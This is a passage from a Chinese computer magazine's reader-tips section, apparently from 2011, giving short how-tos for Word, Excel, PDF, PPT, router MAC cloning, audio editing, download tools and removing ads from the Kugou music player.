要计算总分，把光标放在总分下的相应位置，单击菜单栏的“布局→公式”，在弹出的公式对话框中，把公式下方框里的字符清除，输入“=SUM(B2:D2)”，确定后总分就算出来了。“B2:D2”表示张三语文到英语的分数（只需把该表想象成Excel表就知道行号和列标了，依此类推）。函数名也可从“粘贴函数”下面的框里选择。

按上面的方法，依次算出平均分、最高分、最低分。

(文/山高月小)

## 何劳他人 办公用品查询Excel就行

2011年第14期《办公用品统计查询省时省心》一文，介绍了用“办公用品领用登记1.0”软件来搞定日常办公用品领用情况的统计与查询。但若要打印的话，还需导入到Excel中排版来打印，这就降低了效率。其实无需借助他人，Excel就能快速完成这些工作。

首先在工作之初，启动Excel 2007建立一个工作表，在A2到G2单元格中依次输入“序号”、“姓名”、“部门”、“数量”、“单位”、“物品名称”、“领用日期”等列标题，并设置好字号等属性。

其次，选中A2:G2单元格区域，在“开始”选项卡，单击“编辑”组中的“排序和筛选”按钮，单击“筛选”，这时在各个列标题的旁边都会出现一个下拉箭头，以后在工作中按各列标题的内容填写列表即可。如要查询某个人或某个用品的领用情况，点点鼠标就行了。

比如要查询高山领用记录本的情况，首先可以单击“姓名”列标题旁边的箭头，去除“全选”前面的勾选，再勾选下面的“高山”，单击“确定”。接着单击“物品名称”旁边的箭头，去除“全选”前面的勾选，再勾选下面的“记录本”，单击“确定”。你会发现，此时表格中呈现的就是要查询的结果了。

(文/刘玉岗)

## 克隆地址 让家中多台电脑都上网

2011年第17期《偷梁换柱 没绑定的电脑也能上网》一文，讲述的是通过修改网卡的MAC地址来突破电信运营商的封锁从而达到上网的目的。不过现在很多家庭都不止一台电脑了，就连带WiFi功能的智能手机也比比皆是，总不能把所有上网设备的MAC地址都修改成一样的吧。

现在市面上普及型的路由器（包括无线路由器）都具有MAC地址克隆功能，即该路由器能将WAN口的MAC地址修改成你想要的任何MAC地址。以TP-Link WR340G+为例，把能正常上网的电脑（即拥有合法MAC地址的电脑）与路由器相连，进入其管理界面，在“网络参数→MAC地址克隆”里即可打开MAC地址克隆功能。你会发现合法电脑的MAC地址就会自动出现在“当前管理PC的MAC地址”一栏中，这时点击“克隆MAC地址”便完成了地址克隆，其他经过路由器接入网络的电脑就再也不用担心MAC地址不同的问题了。



(文/陈晓军)

## 读取VirtualPC中资源的另类办法

2011年第15期《妙用虚拟机突破局域网网速限制》一文中讲到借助虚拟机在局域网中实现下载的方法，而宿主系统则是借助网络共享来获得下载的资源，这样必须打开虚拟机才行。其实，Windows 7已经能够直接支持VirtualPC生成的VHD虚拟硬盘文件了，方法也很简单，在“磁盘管理”中点击“更多操作”，选择“附加VHD”（图1），定位到VirtualPC生成的VHD虚拟硬盘文件即可。此时打开“计算机”就会发现多了一个磁盘，它就是VirtualPC中的虚拟硬盘，这样我们就可以像使用物理磁盘一样来操作虚拟磁盘了。





不想使用时，只需要在“磁盘管理”中右击该虚拟盘符，选择“分离VHD”即可（图2），十分方便。

(文/陈晓军)

## 用打印机自带功能打印小册子最方便



2011年第19期22页《绕道PDF 打印小册子更轻松》和第6期的《出版小册子 你自己也能》，介绍了小册子打印的方法技巧，给读者一定启发。但与打印机自带的小册子打印功能相比，我认为还是用打印机自带功能进行小册子打印最方便，且不会出错。

以正常的Word文档制作小册子为例，文档编辑完成后点击“文件→打印”，在打印对话框中，点选某个打印机，如brother hl-2140，点击“属性”选项打开对话框，点选“高级”选项卡，点击“双面打印”按钮（有AB图标的按钮），勾选“手动双面打印”和“小册子打印”，选择“左边翻页”（或其它选项），确定后就可以开始打印，打印机将按小册子打印方式进行打印，看打印提示操作即可。

如果打印机选的是hp1020，点击“属性”后在打开的对话框进行相应的设置即可。

有三个地方要注意一下：

- 一是打印的页数问题。由于小册子打印实质是一页纸打印4页，所以需打印页数在40页以下的，可一次打印完成，打印的页数以4的倍数计算，如20页、32页、36页等。总打印页数超过40页的，按最多40页为一次进行打印，即1~40页为一次，第二次从41页开始，以此类推。
- 二是字体大小的问题。小册子打印是将文档缩小打印在半张纸上，所以要根据小册子字体大小的要求进行相应的设置。原3号字打印在小册子上大约为5号字大小。大家可以根据实际情况设置字号大小，可打印一张纸试试。
- 三是第二面打印时纸张放置正反及方向的问题，按打印提示进行放置。若不明白的，可打印8页（即2张纸）试一次。

(文/王法根)# 批量提取docx文档中的图片

在2011年第12期《好压智取Office 2007文档中的图片》一文中，提到Word 2007文档实际是一个压缩文件，可以通过压缩软件提取其中的图片。不过若是有N多个docx文档，而且每个文档都有图片需要提取，那工作量就大了。这下就要请WinRAR大师出马了。

有人可能会想到关联docx与WinRAR，然后再批量解压就行了。首先任选一个docx文档，右击该文档，在弹出菜单中选择“属性”，打开“属性”窗口，点击“打开方式”后面的“更改”按钮，在弹出的“打开方式”对话框中选择WinRAR，确定。此时docx文档的图标已经变成WinRAR的图标，我们可以直接双击用WinRAR打开docx文档了。

但是docx文档的右键快捷菜单中仍然没有出现解压到选项，仅仅不需要繁琐地去更改扩展名而已。我们可以这样做：

第1步：用WinRAR打开任意一个压缩文件，在WinRAR的窗口里点击“选项”菜单，选择“设置”，在弹出的“设置”对话框中切换到“综合”选项卡，在下方的“用户自定义压缩文件扩展名”的下拉列表框中输入docx，确定。这样docx文档就与WinRAR关联起来了。这时的docx文档的图标已经成为压缩文件的图标了，右键菜单中也出现了解压的选项。

第2步：将要提取图片的docx文档全部置于同一目录下，然后全部选中，右击选中文件，选择“解压每个压缩文件到单独文件夹”，WinRAR就将每个docx文件进行解压，并将每个文件解压后的文件放到单独的文件夹中。而我们所需要的某个文档中的图片就在对应文件夹中的word\media\目录下。

第3步：图片提取完成，我们还得把docx文档与WinRAR的关联给去掉，否则在压缩和打开docx文档时会出现问题。去掉关联很简单，只要在WinRAR的“设置”对话框里的“综合”选项卡中，把自定义的压缩文件扩展名删除，确定后，把docx文档的打开方式更改为Word就完成了。

(文/游家霖)

# 分类汇总与打印 条件函数全搞定

使用EXCEL分类汇总命令，汇总出来的数据项，分层显示很方便，但打印起来却有点麻烦。2011年13期《EXCEL中分类汇总数据巧转移》一文介绍了一种快速转移分类汇总数据从而方便排版打印的方法。其实，使用EXCEL的条件函数AVERAGEIF、SUMIF等，不但可以对多个字段同时进行不同类型的分类汇总，而且排版打印也很方便。

最近我在计算教师年终绩效奖时，碰到了一个数据汇总的问题：这里以姚明灿为例，他任教两个班级，指标奖为两个班级指标奖之和3925，而学科优胜奖为两个班级优胜奖的平均值1250，二者之和5175就是他的年度绩效奖。每位教师所带的班级数不尽相同，直接通过分类汇总命令，一次只能对一个有序的“分类字段”进行一种方式的汇总，要么求和，要么求平均值，二者不能兼顾。如果我们也可以使用两次分类汇总命令，但汇总数据项又不在同一行，排版打印很不方便。

用Excel 2007的条件求和函数SUMIF和条件平均函数AVERAGEIF，可以轻松按不同方式汇总多个字段数据。

- 首先，复制部门和员工姓名数据区域B1：C17（包含数据列名称）到I1:J17，然后选定执行I1:J17数据区域，执行“数据→删除重复项”命令，筛选出不重复的教师姓名。

小提示：
在Excel 2003中，选定姓名数据区域B1：B13（包含数据列名称），执行“数据→筛选→高级筛选”命令，打开“高级筛选”对话框，选择“将筛选结果复制到其他位置”，勾选“选择不重复的记录”，同样可以完成教师姓名的筛选。

- 对相关数据区域进行必要的格式设置之后，在H2单元格插入条件求和函数SUMIF，条件比较区域Range为B2：B13，条件Criteria为G2，求和区域Sum_range为C2：C13，确定之后，便完成了一位教师班级指标奖的求和汇总。
有一点要提醒大家注意，在复制应用该函数到下面的单元格之前，需要将条件区域和求和区域都变成绝对地址引用，即在相应的行列序号之前都加一个“$”符号，否则向下拖动时，这两个区域的范围都会依次发生变化，从而影响数据的正确统计。

- 接下来，在I2单元格中插入条件平均函数“=AVERAGEIF($B$2:$B$13,G2,$D$2:$D$13)”，同样也可以完成“学科优胜”数据列的平均汇总。由于Excel 2003中没有AVERAGEIF函数，我们可以使用条件求和SUMIF和条件计数函数COUNTIF来共同实现AVERAGEIF函数的功能“=SUMIF($B$2:$B$13,G2,$D$2:$D$13)/COUNTIF($B$2:$B$13,G2)”，以实现条件平均的汇总操作。

- 选定汇总后的数据，执行“页面布局→打印区域→设置打印区域”命令，或者将它们选择性粘贴到一个新的工作表中，很容易进行汇总数据的打印操作。

在执行该命令之前，必须先以“分类字段”为主要关键字，对目标数据区域进行排序。而通过条件函数进行数据汇总的方法，对没有排序的数据也同样适用。

(文/远渡重洋)

# Word中英文校对之探讨

为增加Word校对的准确性，近来我对《电脑爱好者》2011年14期中《让Word校对更准确一些》一文中介绍的操作进行还原，结果遭遇到几乎全面的失败。

## 一、校对核心文件有误

失败的最主要原因集中在文中所谓的校对词典上。文章认为校对的核心是UProof文件夹中的CUSTOM.DIC文件，但按原文中介绍的方法新建词库，并加入到校对中测试，发现该位置的词库只对英文字符有效，对中文词组则视而不见，验证环境为Windows XP SP3，Office 2007。

先在Word中输入几个中文词组，比如：帮夫运、闹太套、做为。再自造几个不存在的英文单词，比如：UProof、beo。通过Word校对会发现，其中帮夫运、闹太套被标记为蓝色波浪线，意为语法错误，而UProof、beo和中文的“做为”被标记为红色波浪线，拼写错误，这也是最常见的两种标识（图1）。

随后按文中介绍的方法，把这几个中英文词组加入到新建的字库中，重启Word后再次输入同样内容，英文单词下的波浪线消失，而中文词组下的波浪线依然存在。由此可见，CUSTOM.DIC及其同目录下自建的词库，并不能真正解决简体中文的校对问题，仅仅可以解决英文校对中的问题。

## 二、词库充实后导出

在词库替换方面也需要注意。实际上无论是搜狗的细胞词库还是QQ的用户词库，都只是提供了一种文字的组合方式，使用的初始阶段并没有实质内容，比如搜狗细胞词库，初始时导出的词库只有说明文字，需要经过长期使用，在自动记录了相当多的词语后，才可以将其中的英文及特殊符号去除后导出使用（图2）。

## 三、也许并不完美

当然解决Word校对的方法也不是没有，原文虽没能解决简体中文校对问题，但还是提供了一些思路。

### 1. 中文波浪线的去除

按原文介绍使用搜狗或QQ输入法一段时间后，把词库导出为文本文件，并去掉其中的英文及特殊字符，中文词组要求每行一句。然后打开Word，输入上面的词组，在遇到红、蓝波浪线时，单击菜单栏中的“审阅”，单击“校对”栏中的“拼写和语法”，单击“词典”，在“更新微软拼音输入法词典”对话框中单击“自造词工具”，进入“微软拼音输入法2007自造词工具”界面（图3）。

| 序号 | 拼音 | 词语 |
| :--- | :--- | :--- |
| 1 | zhuo wei | 做为 |
| 2 | bang fu yun | 帮夫运 |
| 3 | nao tao | 闹太套 |

小提示：
如果使用微软拼音输入法，可在输入法工具条上单击“功能菜单”，选择“自造词工具”打开“微软拼音输入法2007自造词工具”界面，单击“自造词→从文件中导入词条”，选择导出的词库文件打开，保存退出，重启Word输入原来的中文词组，红、蓝波浪线均已不见踪迹。

### 2. 英文波浪线的去除

英文波浪线多是由于拼写错误造成，因此波浪线显示为红色，无法加入到自造词中。对于这种现象，一般只需调出“拼写和语法”界面后，单击“添加到词典”就可以解决。这当然不是我们的最终解决方法，而是想让这个操作告诉我们，所说的加入到词典就是加入到CUSTOM.DIC文件，使自造的单词正确化。鉴于此，经常进行英文录入的朋友，可以把收集的所有常用词都添加到这个文件，或添加到另建的词典并启用，这样就可以大大减少英文出现波浪线的概率了。

(文/赵毅仙)

# PDF文档取所需 更有他方妙法

## 一、分割PDF文件与朋友分享更简单

2011年18期有篇《PDF杂志取我所需 传与朋友分享》的文章，看过之后深有同感。平时自己也喜欢下载一些PDF格式的电子图书保存在电脑中，但由于PDF格式文件空间占用大，天长日久磁盘空间骤减。原文是利用福昕PDF阅读器中的“快照”功能，将所需内容复制后打开WPS等软件粘贴，再还原为PDF格式传与朋友分享。这需要有福昕PDF阅读器，还要有能输出PDF格式的WPS等软件，其实不用那么麻烦，只需一款软件PDF Editor，即可完成PDF文件的浏览、分割、合并等操作。这样分割后的单页或多页文件，就可以轻松实现传输共享了。

在下方单击“翻页”箭头，找到要分割的页码后，单击菜单“文档→导出页面”，在打开的对话框中单击“另存为”，保存后在“导出页面”对话框中选择“页面”，在英文状态下输入要导出的页面范围（图1），单击“确定”即可。页面导出成功后无需转换，就可以直接将导出的PDF文件页面传输给朋友共享了。

## 二、杂志取我所需何需双管齐下

《PDF杂志取我所需 传与朋友分享》一文巧妙地利用“福昕阅读器”和WPS组合，解决了PDF文档去粗取精的问题，非常实用。但在赞叹之余觉得，一来有些朋友只使用WORD，再安装个WPS显然不值，二来该法只能保留原来的版式，对于喜欢在手机上阅读的朋友很不合适，我的解决方案是：利用K2PDFopt这款软件，提取PDF文档中需要的页面，并转换到适合手机阅读的版式。K2PDFopt（下载地址：http://www.willus.com/archive/）本是为Kindle阅读器准备的软件，能够自动获取PDF文档中的某几页，并完成版式转换。下载后只有一个名为k2pdfopt.exe的可执行文件，操作时直接把PDF文档拖入K2PDFopt的文件图标上，便会弹出命令提示符界面，在命令提示符界面的光标处输入要提取的页码（单页之间以英文半角逗号隔开，比如：8,10，连续页以“-”符号连接，比如：13-15），按下回车键，软件便开始提取页面内容，并进行重新排版。转换完成后，再按回车键关闭界面，文档便被自动更名导出，格式不变。整个操作并不需要PDF阅读器与任何文本编辑工具。想输出有色彩的页面，只要在打开的命令提示符界面中，输入相应的参数C，回车后再按提示输入要提取的页码，使用多个参数时只要连续输入即可。该方法的优点，是无需其他软件参与便能提取PDF文档的指定页面，并自动完成版式转换，尤其适合掌上阅读，缺点是提取的页码无法直观地选择范围（图2）。

(文/刘长德 赵毅仙)

# 用PPT自定义动画实现变形效果

2011年19期《何须Flash PPT轻松制作变形动画》文章中，圆柱体的变形是用逐帧方式来实现的，并不能体现出PPT动画的效果，其实活用PPT的自定义动画可以实现很多特别的动画效果。以下是我用3个自定义动画方式实现变形的步骤。

- 建立一张新幻灯片，最好用纯色背景，画1条直线做圆柱体左侧边，直线需要2倍于边长。为直线添加效果：陀螺旋，开始为“之前”，数量为“25度顺时针”，速度为“中速”（图1）。
- 选中此直线后复制粘贴一次做圆柱体右边，将动画效果中的数量改为“25度逆时针”，其他不变。
- 使两条线垂直居中对齐，并调整距离到播放动画后可以相互交叉，画2个矩形，线条颜色选“无线条颜色”，填充色为底色。一个矩形遮住两条线的下半部分，另一个遮住交叉后多出的部分。画2个椭圆，分别调整成上下圆。选中上边的椭圆添加动画效果：放大/缩小，开始为“单击时”，尺寸为“0”，速度“2.1秒”（自行调整到合适，精确到0.1），如图2。
- 将椭圆动画调整到最上，OK动画完成。如果需要重复，可以在前面插入一张空白幻灯片，背景与此张相同，幻灯片切换方式中选每隔0秒，本页中增加一个提示文本框，设置超链接为前一页。

(文/徐鹏)

# 图片插入文档当然不走弯路

2011年17期中的文章《图片插入文档 不走弯路》介绍了文档插入技巧，实际上如果用另一款软件SnagIt，只需简单的几步即可快速截取图片到Word或其他Office组件中。当我们捕捉所需要的图片后，在图片编辑状态下按Ctrl+A全选刚才捕捉的图片，然后按Ctrl+C复制，再返回正在编辑的文档中按Ctrl+V粘贴即可放置刚才捕捉的图片。对于网上搜索的图片也可以依照上述步骤完成捕捉。如果需要直接输出到剪切板，可以在“方案设置”的“输出”中选择“剪切板”，即可省去按快捷键的时间了。这里需要指出的是，我们平时用到的文档编辑软件并没有对插入的图片进行优化，如果将捕捉到的图像直接插入文档会导致文档体积臃肿。此时建议用WPS个人版点击图片，在图片工具栏中选择“压缩图片”并保存，这样WPS会对图片进行适当压缩，精简文档体积。

(文/叶勇)

# 复制多处内容 一次性合并粘贴

在电脑技术论坛浏览时发现许多有用的电脑知识，想将它们复制到WORD中保存下来，以备使用时查看，可是这些小片段放在不同的贴子中，不能一次性复制到剪切板上，来回复制粘贴很累人。用小巧的剪贴板工具Hamsin Clipboard (http://mydown.yesky.com/soft/46/46943.html)可一次性合并粘贴，一下子就轻松多了。右击系统托盘软件图标选择“合并已复制的纯文本内容”，或直接按下Win+T快捷键激活此功能，在网页中复制多处内容，它会自动将它们按顺序收集合并，切换到WORD中粘贴（或按Win+1），即可将复制的内容全部合并粘贴到WORD中。若感觉快捷键不适合自己，可选择“命令”菜单中的“设置”，在“常规”标签下更改快捷键。它最多可以记录最近的10次剪切内容，可单独粘贴，也可一次性合并粘贴。不需要使用合并已复制的纯文本内容功能时，最好将其选择状态取消掉，以防干扰正常粘贴操作。

(文/博言)

# 莫说相似图难找 借你一双慧眼吧

拥有相机的朋友虽然不少，但大多数的拍照水平仅仅停留在菜鸟阶段，只能靠拍摄数量来弥补水平的不足，久而久之，电脑中的相似照片堆积如山。由于相似照片不同于重复照片，无法利用EXIF信息辨别，因此想找出这些垃圾照片非常困难。难道只能任其逍遥，白占空间？NO！现在就送你一双慧眼，帮你剔除电脑中的相似照片。

- 打开VisiPics程序界面，在中部的资源管理器栏中找到要搜索的文件夹，直接拖进右侧的列表框中，以便为软件指定搜索范围。其他存放照片的文件夹可按同样方法添加。
- 切换到Filter标签，拖动出现的滑块设置搜索的相似程度。滑块的位置越低，照片的相似程度越宽松。接着单击菜单栏中的“Options→Scan for 90 rotations”，添加上旋转90度照片的搜索规则。
- 设置完后单击界面中部的播放器状按钮开始搜索，稍等片刻，搜索到的相似照片缩略图便会呈现在界面左侧。当鼠标指向某一缩略图时，放大后的图片会显示在界面右下方的预览窗口中，右击照片可以以原始分辨率查看。

对于刚刚使用软件的朋友来说，相似度是个很难确定的标准，这里教你一个小窍门：搜索前先把相似度级别设置为最高，然后开始搜索，这样当软件找不到如此高相似度的照片后，就会自动降低标准，直至找出相似照片。接下来再逐级降低相似刻度。

- 切换到Auto-Select标签，分别勾选Lower resolution和Smaller filesize选项，以此设置标记规则为低画质和低分辨率的照片。随后单击Auto-select按钮，再单击OK按钮，此时照片的缩略图上，品质较差的照片上便会出现MARKED标记符号。如果要更改软件所做的标记，则先单击被标记的照片去除标记，然后在其他缩略图上单击鼠标，手工进行标记。
- 所有照片标记后，单击界面右侧的Delete按钮，在弹出的确认框中单击OK按钮，被标记的照片便被删除。当然也可以单击Move按钮，指定一个文件夹，把标记的照片移到这个文件夹中保留。

VisiPics下载地址：http://www.visipics.info/index.php?title=Download

Awesome Duplicate Photo Finder下载地址：http://www.duplicate-finder.com/photo.html

另外还有一款操作更简单、堪称菜鸟最爱的软件Awesome Duplicate Photo Finder，它不仅能自动找出电脑中的相似照片，而且能直观地标注出两张照片的相似程度，但需要人工筛选、容易出错，单凭肉眼也难分辨画质。经测试，在提交的307张照片中，它列为相似的照片数量为52张，相似度从2%到76%不等，没有出现明显错误。由于人工筛选过于繁琐，因此它只适合在照片较少、要求不高的环境下使用。

而在提交给VisiPics的同样数量的照片中，相似度设置为Loose（最大相似）时，显示的相似照片为126张，远远高于Awesome Duplicate Photo Finder的结果，且没有出现明显错误。可以说，VisiPics的查找功能更强大，而其自动标注功能更是能让大家省力不少。当然，操作也略为复杂一些。

（文/赵毅仙）

# 没装Windows7 聊天照用多标签

小华是业务推销员，经常和多个客户同时QQ聊天，觉得频繁地在这些聊天窗口间切换非常累手。以前用过的“QQtab”对应的是QQ老版本，不支持QQ2011，而新推出的QQ概念版虽说支持多标签功能，但安装时却弹窗警告只适合Windows 7环境。对于目前并不想安装Windows 7的小华来说，能把多个聊天窗口“收集”起来从而巧妙实现多标签功能的Jedi Window Dock很适合。

运行软件Jedi Window Dock（下载地址：http://download.pchome.net/system/sysenhance/detail-142411.html），单击“Refresh Windows List”进行刷新，各个聊天窗口会以好友名称的形式显示于下方的列表中，一一选中它们并分别单击“Add To Tab”按钮，就能把聊天窗口加入到标签之中。需要与某个好友聊天时，单击标签中的好友名称即可打开对应的聊天窗口。

如果有新的聊天窗口出现，单击“Refresh Windows List”，新的聊天窗口便被“收集”到列表中，选中并单击“Add To Tab”就可添加。需要把某个聊天窗口从中脱离出去的话，右击标签，选择“Popout App”即可。如果选择的是“Close App”，则表示关闭标签及对应的聊天窗口。

（文/曹春华）

# QQ表情真不少 导入飞信才叫好

女友说她的QQ保存了很多好玩的表情，想把这些表情导入到飞信中，以便在用飞信聊天时也能营造一份温馨的氛围。可是飞信不支持QQ导出的表情文件格式。经过一番研究终于找到了解决的方法。

首先下载7-Zip软件（下载地址：http://dl.pconline.com.cn/html_2/1/74/id=307&pn=0.html），解压并安装。然后打开QQ聊天窗口，点击表情图标，在弹出的窗口中点击“表情管理”，点击“导入和导出→导出全部自定义表情”，保存表情。

右键单击导出的QQ表情，选择“7-Zip→Extract to X”（X代表文件名），稍等片刻会生成一个文件夹。由于在释放表情时会生成一个动态表情和一个静止图片，我们需要将静止图片删除。打开该文件夹，右击鼠标选择排列图标下的“类型”，选中所有bmp格式图片，将其删除。

打开飞信聊天窗口，点击表情图标，在弹出的窗口中点击“表情管理器”，点击“+”图标，选择表情文件夹并全选所有文件，点击“打开”后输入表情组名，确定即可。

（文/郭成贺）

# 好压智取Office 2007文档中的图片

小王从网上下载了一个包含很多图片的Word文档，想把里面的图片都提取出来单独存放。可因为是Word 2007文档，不能像2003版那样通过把文档存储为Web格式来提取图片。我告诉他用好压来解决。

2007版Office生成的文档实质上是一个压缩包，体积比Office 2003生成的文档要小很多。既然是压缩，那么就用解压软件来处理一下。

右键单击文档对其重命名，把扩展名docx改为zip，回车确定。改名后的文件用好压打开，在“文档名\Word\Media”目录里就能找到文档中的所有图片了。

同样，在2007版PPT和Excel中，也可以使用这种方法快速提取文档中的图片。

（文/陈晓军）

# 不需每天登录 自动领取淘金币

女友喜欢到淘宝购物，她发现淘宝的淘金币很有用，攒够一定的数量可以换礼品，或加入人民币可以很便宜地购得心仪宝贝。虽每天登录一下淘江湖可以领取一定数量的淘金币，可是每天登录有点麻烦，用“淘宝金币助手”绿色小工具即可每天自动登录淘江湖，省时省力领取淘金币。

淘宝金币助手1.0绿色版下载地址：http://www.cngr.cn/dir/213/324/2011040770482.html

## Step1：首次登录

首次运行“淘宝金币助手”，输入淘宝用户名和密码登录，但即便是正确无误，它也会提示用户名或密码错误，并显示出淘宝会员和支付宝会员登录页面，这时点选“淘宝会员”，勾选“安全控件登录”项，再输入一次密码并回车即可正常登录。

软件这样做的目的是防止用户的淘宝会员密码被偷窥，而且使用安全控件登录更安全。经过首次登录后，设置成自动登录方式，就不用这么麻烦了。

## Step2：设置自动登录

登录成功后它就会像浏览器一样打开淘宝的网页，并自动领取当天淘江湖送出的淘金币，同时提示明天可以领取的淘金币数。勾选“自动登录”，会弹出“提示”对话框，说明在软件目录下生成一个保存自动登录信息的文件“TBAutoLogin.dat”。确定后会自动退出淘宝会员登录状态，返回后要求输入淘宝会员密码页面，仍勾选“安全控件登录”项，再输入一次密码并回车登录，完成自动登录设置。

删除“淘宝金币助手”软件目录下的“TBAutoLogin.dat”文件，就能取消自动登录功能。

## Step3：设置随系统启动

将“淘宝金币助手”的快捷方式放到系统“启动”项中，让它随系统启动而自动运行，自动领取淘宝金币。自动登录后，不再显示其窗口界面，只在托盘里显示其状态。它能智能判断当日是否已经领过金币，如果领取过了，会在系统托盘给出提示。

（文/王彦博）

# 下载歌曲去多补缺

满心欢喜从网上下载了歌曲，可郁闷地发现不是多一段就是少一段，或者令人更窘迫的问题。不过请出GoldWave（下载地址http://www.onlinedown.net/soft/5236.htm）就都解决了，还可以制作自己的串烧音乐呢。

### 一、拒绝画蛇添足 我要斩草除根
这歌曲前7秒竟然是空白的！怎么办呢？直接把多出来的“咔嚓”掉就行了。

打开GoldWave载入所需编辑的文件（刚载入文件时初始标记线在波纹最左端，末尾标记线在最右端），根据右侧控制器中显示的时间，将初始标记线移到第7秒，使前7秒变暗黑色，点击“剪裁”按钮，保存即可。

### 二、这声音太轻了 你当我是长耳兔啊
如今打开播放列表，动不动就是几百首歌，可就是有这么一两首的音量有些另类，每次都要手动调高一下音量，相当烦人，不如从根本上手提高源文件的音量。

载入文件后点击菜单栏“效果→音量”，这里可以手动操作也可以用软件提供的自动增益，推荐用自动增益，点开后不用管什么设置，直接确定就行了。

### 三、让声音移花接木
好不容易找到的无损音乐可能会遇到缺一段声音的情况，如果你不想重新大海捞针，那么就和我一起用一首320K MP3音乐的部分来代替缺失的地方。

首先打开两个文件（在这儿我以丢失音乐结尾为例），对比一下两个文件，寻找缺失部分的波纹，接着用初始标记线和末尾标记线在320K MP3文件中将这部分波纹选中（注意明亮部分为选中，非暗黑色部分），右击选择“复制”，然后将进度条往下拉到无损音乐界面，将初始标记线定位到需要移花接木的地方，右击选择“粘贴”。好了，点击控制器的播放按钮，看看合不合适，如果没问题就可以保存下来。

**小提示：伴奏伴奏**
难得找一次伴奏，可就是死活找不到，其实只要有这首歌带人声版的就行了。载入文件后单击“效果→立体声→消除人声”，同样不用管设置直接确定，这不就是我千辛万苦、不辞辛劳，哪怕不看CFan也要找到的XX伴奏吗？
（文/高路遥）

# 新歌批量下不停

相信很多朋友都与我一样，工作之余让美妙的歌声流淌在身边，以舒缓紧张疲惫的心灵。百度MP3上的好歌多如繁星，不过却只能一首一首地下载，虽有功力高超的大虾发明了用迅雷批量下载之法，却因为百度更改了音乐文件的命名格式而难以奏效。执着的我终于发现了一批又一批量下载的方法。

- 我最喜欢新歌TOP100上的歌曲，进入百度MP3，然后点击“新歌TOP100”，进入到新歌TOP100页面，复制一下地址栏中的网址备用。
- 运行硕鼠，在页面FLVCD地址栏中按下Ctrl+V键，点击“开始”按钮，即开始解析该页面中所有歌曲文件，凡是能够下载的都会显示于页面中，仅仅数秒钟的功夫即可解析完毕，这时点击“用硕鼠批量下载本专辑”即可批量下载新歌TOP100中所有的歌曲文件。

**小提示：** 按上述方法批量下载歌曲TOP500、歌手TOP200等榜单中的歌曲非常方便。另外，FLVCD几乎可以解析网络上所有音乐网站上的音乐文件下载地址，从而可将自己喜欢的专辑一网打尽。
硕鼠下载地址：http://www.flvcd.com/
（文/乔珊）

# 邮箱积分换网盘 简单又划算

很多朋友使用网易的免费邮箱，却没太关注所获的邮箱积分有什么用。当你获取一定数量的积分之后，就可以使用它们来免费体验原本收费的增值服务，例如体验3个月的VIP邮箱服务，获得到京东、凡客等网上商城购物的返现特权，参与积分活动赢取奖品、兑换网盘容量等。

如果你希望寻找一种较为可靠的在线文件存储方法，可以参加网易的邮箱积分兑换网盘容量的活动，为免费网盘扩容，以便于上传单个文件不超过50MB、总容量不超过512MB的文件，而不用担心期限问题。

注册网易邮箱之后，需要先通过Web方式登录邮箱一次，才可以开始累计邮箱积分。积分获取方法有操作邮箱、使用网易闪电邮、老用户奖励、包月手机增值服务赠送等。

**小提示：** 网易从2011年1月1日起开始启动2011年度的活跃积分规则，所有163免费邮用户在2010年12月31日前没有消费完的积分将进行对折处理，并计入2011年度的活跃积分之中，我们需要及时使用邮箱积分，否则一到年底就会被对折处理，当然，年度活跃积分的对折处理，并不影响邮箱积分等级的积累。

以积分兑换网盘容量为例。通过Web方式登录网易邮箱，单击左下方的“网盘”链接可以升级网盘，1个积分可以兑换163MB，800个积分可以兑换280MB，1800个积分可以兑换512MB。

升级后的免费网盘，很容易实现文件的上传、下载、分享等类似于QQ文件中转站的文件存储功能，而不用担心文件续期的问题。令人遗憾的是，不管拥有多少邮箱积分，如果想要拥有2GB的网盘，则需要开通收费的随身邮包月服务。

**小提示：** QQ的收藏夹功能对非会员用户只能提供50MB的免费存储空间，文件中转站虽然能够提供2GB的临时存储空间，却只能存放30天，而且不再提供文件续期功能。
（文/姚文连）

# 园丁好帮手 准考证打印自动化

学生参加考试离不开准考证，如果先打印好模板再用手填写，麻烦且费时间。而用准考证制作打印软件（http://www.crsky.com/soft/19687.html），只需简单几步就可以很轻松地完成此繁重任务。

- ①首先制作一份包含考生信息、考场、考号、座位号、性别、学校、班级以及照片编号的Excel文件，在准考证制作打印软件主窗口点击“文件→导入考场编排表”，找到并导入此Excel文件。点击“考场编排表”，通过选择四个组合列表框就可以筛选出本次要打印的考生。
- ②点击“制作准考证”，点击“文件→打开模板”，导入一个你需要的准考证模板，先输入每个考生准考证上都相同的文本，如“XX考试准考证”，然后填充每个考生的姓名、考场、考号等信息，只要把鼠标移到相应的位置双击，即可进行编辑。
- ③点击左下角照片设置按钮，勾选“使用电子照片”，单击“浏览”选择预先存放了考生照片的文件夹，选择照片文件名的对应方式，比如照片文件名是考生的姓名就选择姓名，若是编号则选择编号。
- ④单击“预览打印”按钮，对此次编辑的所有准考证进行打印前的预览，满意后单击打印按钮即可。

**小提示：** 如果你此次编辑的准考证一次打印不完，或者以后还要打印使用，可点击“文件→保存模板”，选择合适的位置保存起来
（文/清风慕缘）

# 酷狗只听音乐不听广告

酷狗音乐很好用，但是那些广告却影响了我们的听歌情绪。虽然网上有很多补丁可以删除广告，但是在未知文件是否安全的情况下不推荐大家使用，可以用下面的方法去除酷狗音乐2011的形形色色的广告（此方法在酷狗音乐6.216正式版测试通过）。

- ①首先关闭酷狗，找到安装目录（右击酷狗音乐→属性→查找目标），找到“optionv 5”文件（修改之前首先备份）。
- ②打开后找到[yurul]，往下再找到“SearchPageAdURL=”、“NewSearchPageAdURL=”、“DownPageAdURL=”，把等号后面的网址删除，这些都是搜索页面和下载页面的广告。
- ③找到“MainAdUrl=”，把等号后面的网址删除就可以去除主页面广告。
- ④然后是删除右下角那些滚动的文字，找到“SRTextADs=”把等号后面的网址删除（注意：不要删了MusicPlugInUrl这一行）。
- ⑤最后要删的就是下载广告链接，找到“DownAdUrl=”，把等号后面的网址删除就完成所有工作了。

**小提示：** 为了不让广告再次生成，我们要把“optionv 5”文件设为只读，并且在当前用户权限拒绝写入（XP用户打开权限方法：当前磁盘为ntfs→工具→文件夹选项→查看→使用简单文件共享）然后对“optionv 5”属性的安全里设置当前用户拒绝写入。大功告成，再次打开酷狗就看到整个酷狗就是无广告了。
（文/曾梓虎）

# 私密打印 避免被人错拿

